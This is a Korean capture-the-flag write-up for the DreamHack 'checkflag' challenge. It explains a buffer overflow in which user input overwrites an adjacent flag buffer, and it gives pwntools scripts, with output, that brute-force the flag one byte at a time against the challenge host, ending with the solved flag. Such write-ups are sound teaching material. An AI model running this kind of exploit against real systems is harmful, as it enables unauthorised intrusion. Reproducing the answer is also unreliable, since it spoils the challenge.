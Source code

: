 # [DreamHack] checkflag

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 플래그를 입력하면 정답 여부를 확인하는 바이너리를 통해 플래그를 추출하는 문제입니다.
>
> 플래그는 `DH{...}` 형식이며, printable ASCII 문자(`0x20-0x7e`)로만 이루어져 있습니다.
>
> Release: [checkflag.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8608397/checkflag.zip)

## Analysis

```c
  flag_fp = fopen("flag", "r");
  if ( !flag_fp )
LABEL_8:
    exit(1);
  _flag_fp = flag_fp;
  fgets(flag, 64, flag_fp);
  fclose(_flag_fp);
  fputs("What's the flag? ", _bss_start);
  fflush(_bss_start);
  flag_input_len = read(0, flag_input, 200uLL);
  v8 = _bss_start;
  if ( (__int64)strlen(flag) > flag_input_len || strcmp(flag_input, flag) )
  {
    fputs("Failed!\n", v8);
    goto LABEL_8;
  }
  fputs("Correct!\n", v8);
```

플래그 파일의 내용을 읽어와서 `flag`에 저장하고, 사용자의 입력을 `flag_input`에 받아온다. 이 과정에서 `flag_input_len = read(0, flag_input, 200uLL)`에서 BOF가 발생하는데, `flag_input`과 `flag`는 메모리 상에서 인접해 있으므로, `flag`를 원하는 값으로 덮을 수 있다.

## Exploit

`flag`를 덮어서 `flag_input`과 같게 만들면 Correct!가 출력되기는 하지만 플래그를 알아낼 수 없으므로 소용이 없다.

`flag`에서 마지막 1바이트만 남기고 덮으면 그 1바이트에 대해 브루트포싱을 할 수 있다. 마지막 1바이트를 알아냈다면 그 앞의 1바이트를 남기고 덮어서 마찬가지로 브루트포싱을 할 수 있다. 이런 식으로 계속하면 플래그를 획득할 수 있다.

### Find out length of flag

먼저 뒤에서부터 `'\x00'`로 한 글자씩 줄이면서 플래그의 길이를 알아낸다.

```python
# Find out length of flag

for i in range(0x40):
    if not REMOTE:
        r = process('./release/checkflag')
    else:
        r = remote('host1.dreamhack.games', 17255)

    sa = r.sendafter

    payload = b'a' * (0x40 - i - 1)
    payload += b'\x00' * (i + 1)

    payload += b'a' * (0x40 - i - 1)

    sa('What\'s the flag? ', payload)

    if b'Correct!' in r.recvline():
        flag_len -= 1
        r.close()
    else:
        r.close()
        break

log.info('length of flag: ' + hex(flag_len))
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 17255: Done
[*] Closed connection to host1.dreamhack.games port 17255
...
[+] Opening connection to host1.dreamhack.games on port 17255: Done
[*] Closed connection to host1.dreamhack.games port 17255
[*] length of flag: 0x10
```

플래그의 길이는 `0x10`바이트이다.

### Find out flag

플래그는 `0x20`~`0x7e` 범위의 문자로 구성되어 있다. 앞에서 설명한 방법대로 한 글자씩 브루트포싱을 하면 된다.

```python
# Find out flag

for i in range(flag_len):
    for char in range(0x20, 0x7f):
        if not REMOTE:
            r = process('./release/checkflag')
        else:
            try:
                r = remote('host1.dreamhack.games', 17255)
            except:
                r = remote('host1.dreamhack.games', 17255) # connection is unstable

        sa = r.sendafter

        payload = b'a' * (flag_len - i - 1)
        payload += bytes([char])
        payload += flag
        payload += b'\x00' * (0x40 - flag_len)

        payload += b'a' * (flag_len - i - 1)
        
        sa('What\'s the flag? ', payload)

        if b'Correct!' in r.recvline():
            flag = bytes([char]) + flag
            print(flag)
            r.close()
            break
        else:
            r.close()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 17255: Done
[*] Closed connection to host1.dreamhack.games port 17255
...
[+] Opening connection to host1.dreamhack.games on port 17255: Done
b'DH{RHP1_ZPWR2G!}'
[*] Closed connection to host1.dreamhack.games port 17255
```
